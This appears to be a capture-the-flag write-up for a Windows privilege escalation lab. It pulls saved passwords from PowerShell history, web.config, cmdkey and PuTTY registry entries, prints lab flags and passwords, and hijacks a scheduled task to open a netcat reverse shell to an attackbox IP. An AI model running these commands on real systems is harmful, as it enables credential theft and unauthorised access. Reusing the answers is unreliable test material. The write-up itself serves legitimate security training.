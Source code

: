 # Windows Privilege Escalation

### Windows Privilege Escalation
- Users that can change system configurations are part of which group? `Administrators`
- The SYSTEM account has more privileges than the Administrator user (aye/nay) `aye`

### Harvesting Passwords from Usual Spots
- A password for the julia.jones user has been left on the Powershell history. What is the password? <br />
Open powershell and run: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`<br />
![image](https://github.com/user-attachments/assets/e4b7008f-1c12-4681-9215-9e4f01753be4)<br />
`ZuperCkretPa5z`
- A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user? <br />
Run the following command: `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString` <br />
![image](https://github.com/user-attachments/assets/8395e424-e937-47e8-8fa4-85716d494cf9)<br />
`098n0x35skjD3`
- There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop. <br />
![image](https://github.com/user-attachments/assets/f30bfd39-b6fa-430c-ae6d-3f29f573f0e1)<br />
So let's open a terminal with these credentials; run `runas /savecred /user:mike.katz cmd.exe`: and get the flag <br />
![image](https://github.com/user-attachments/assets/a507f4b3-23e7-4ce5-8048-5b235a5f0d18)<br />
`THM{WHAT_IS_MY_PASSWORD}`
- Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user? <br />
Run `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`: <br />
![image](https://github.com/user-attachments/assets/ee75771b-193b-4717-a68a-f3d76558bfd0)<br />
`CoolPass2021`

### Other Quick Wins
- What is the taskusr1 flag?<br />
If we run `schtasks /query /tn vulntask /fo list /v`:<br />
![image](https://github.com/user-attachments/assets/3642d6aa-877b-4223-bcad-b22e79dc94af)<br >
we can see the same scheduled file described in this task. So let's just follow the steps. So, set up a netcat listener on your attackbox with `nc -lnvp 4444`. Now modify the scheduled task with the following command: `echo c:\tools\nc64.exe -e cmd.exe 10.10.192.202 4444 > C:\tasks\schtask.bat` (Remember to run this on cmd, not powershell). <br />
Now we can run the task with the following command `schtasks /run /tn vulntask` to spawn a reverse shell: <br />
![image](https://github.com/user-attachments/assets/0726bbbc-3910-4a5a-9361-f3a79b677f5a)<br />
So we can get the flag: <br />
![image](https://github.com/user-attachments/assets/6fd04d11-a13f-4f30-8796-5ff2cb5920c1)<br />


### 

### 

### 

### 

### 
